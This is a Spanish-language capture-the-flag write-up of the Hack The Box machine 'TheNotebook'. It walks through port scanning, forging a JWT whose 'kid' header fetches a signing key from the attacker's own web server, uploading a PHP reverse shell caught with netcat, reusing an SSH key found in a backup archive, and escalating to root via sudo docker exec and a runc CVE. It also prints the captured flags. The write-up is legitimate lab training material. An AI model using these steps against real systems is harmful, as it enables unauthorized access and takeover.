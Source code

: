 ```yaml
---
layout: post
title:  "TheNotebook - [HTB]"
date:   2021-07-31 9:20:00 +0200
last_modified_at: 2021-07-31 09:20:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Writeup, Docker, JWT]
categories: Hackthebox
---
```



{: .message}

Es una máquina que realmente me gusto por la forma de intrusión y la escalada.

## Enumeración
### Nmap 
*Puertos:*
* 22 /tcp -> OpenSSH 7.6p1
* 80 /tcp -> nginx 1.14.0
```bash
nmap -p- --open -T5 -v 10.10.10.230 -oG Allport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:10 EDT
Initiating Ping Scan at 21:10
Scanning 10.10.10.230 [2 ports]
Completed Ping Scan at 21:10, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:10
Completed Parallel DNS resolution of 1 host. at 21:10, 0.01s elapsed
Initiating Connect Scan at 21:10
Scanning 10.10.10.230 [65535 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230
Connect Scan Timing: About 43.74% done; ETC: 21:11 (0:00:40 remaining)
Completed Connect Scan at 21:11, 97.59s elapsed (65535 total ports)
Nmap scan report for 10.10.10.230
Host is up (0.082s latency).
Not shown: 47011 filtered ports, 18522 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 97.78 seconds
```
Este escaneo como siempre digo es el importante ya que nos trae versiones de los servicios:
```bash
nmap -sC -sV -p22,80 10.10.10.230 -oN ScanPort1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:22 EDT
Nmap scan report for 10.10.10.230
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```
Siempre me gusta tirar de esta utilidad para saber a qué me enfrento:

```bash
whatweb 10.10.10.230
http://10.10.10.230 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.10.230], Title[The Notebook - Your Note Keeper], nginx[1.14.0]
```

### Fuzz

Mediante wfuzz pude sacar esto: 
* -> http://10.10.10.230/bd7077f7-3d3a-43c0-a0e0-20047e819f35/notes
* -> http://10.10.10.230/admin/
	* upload
	* notes


En el cookie editor encontre lo que es una jwt que cuando se pasa por [esto](https://jwt.io/) y te muestra todo lo que necesitas para trabajar

## JWT Token bypass
Para llevar a cabo este bypass me lei este [blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
```sql
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in privKey.key
Your public key has been saved in privKey.key.pub
The key fingerprint is:
SHA256:6hjan3Jm1H2FExEj0WOvCy6tw6XmNc9AzYVHmp66Ny8 benji@parrot
The key's randomart image is:
+---[RSA 4096]----+
|          oo+o.  |
|           .=*   |
|           .+=o  |
|           +o+o  |
|       .S.. =+   |
|      ....+.o    |
|    .... ==o .   |
|   o.++.*.o*E    |
|  . o*+oo+..o+.  |
+----[SHA256]-----+

python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...

┌─[benj@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.209:7070/privKey.key"}' |base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMDk6NzA3
MC9wcml2S2V5LmtleSJ9Cg==
┌─[benji@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"username":"benji","email":"benji@htb.local","admin_cap":true}' |base64
eyJ1c2VybmFtZSI6ImJlbmppIiwiZW1haWwiOiJiZW5qaUBodGIubG9jYWwiLCJhZG1pbl9jYXAi
OnRydWV9Cg==
```

Primero se copia los dos base64 que se obtuvieron de la codificacion de las cadenas de texto. (Teniendo en cuenta que tengo un servidor en el puerto 7070)

![](/images_blog/img_thenotebook/Pastedimage20210422141532.png)

### Firma del token 

Para hacerlo tienes que copiar  la clave publica y la privada en https://jwt.io/.

## Reverse PHP

Aqui tengo acceso a subir un archivo php y entonces aprovechando esto, subiendo el clasico php

![](/images_blog/img_thenotebook/Pastedimage20210422142431.png)

```bash
rlwrap nc -lnvp 4444           
listening on [any] 4444 ...
connect to [10.10.14.209] from (UNKNOWN) [10.10.10.230] 59978
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@thenotebook:/$ 
```

Primero es que nos encontramos como el usuario www-data tenemos que volvernos el usuario noah, en la ruta de backup nos encontramos con uno del diretorio completo de noah, este backup contiene una clave id_rsa del usuario noah:

```bash
/var/backups$ ls -la
total 64
drwxr-xr-x  2 root root  4096 Jul 31 16:03 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33585 Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root  3618 Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.2.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

```bash
ls
authorized_keys  id_rsa  id_rsa.pub
```

Teniendo esto entramos por ssh:
```bash
noah@thenotebook:~$ ls
user.txt  webapp-dev01.sh
noah@thenotebook:~$ cat user.txt 
56013079b3c02c282d699ba6faec07c6
```
## PrivEsc
Para el privesc nos encontramos un contenedor que se encuentra desactualizado con una version *Docker version 18.06.0-ce* cabe destacar que docker va por la version 20.10:
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
sudo /usr/bin/docker exec -it webapp-dev01 bash
root@b778c5e32326:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@b778c5e32326:/opt/webapp# 

docker --version
Docker version 18.06.0-ce, build 0ffa825
```
Aqui les dejo este [CVE](https://github.com/Frichetten/CVE-2019-5736-PoC):

![](/images_blog/img_thenotebook/Pastedimage20210731171252.png)

La idea es que podemos ejecutar cualquier comando como root entonces sabiendo esto le dare permiso a la bash para cuando haga un bash -p me de una bash como root:

```bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
![](/images_blog/img_thenotebook/Pastedimage20210731171606.png)

![](/images_blog/img_thenotebook/Pastedimage20210731171815.png)

Aqui vemos como tenemos acceso a la flag:
```bash
bash-4.4# ls
cleanup.sh  docker-runc  reset.sh  root.txt  start.sh
bash-4.4# cat root.txt 
9bba1908ac228fb0088747ddee6ab9b9
bash-4.4# 
```
MACHINE PWNED!!!!!

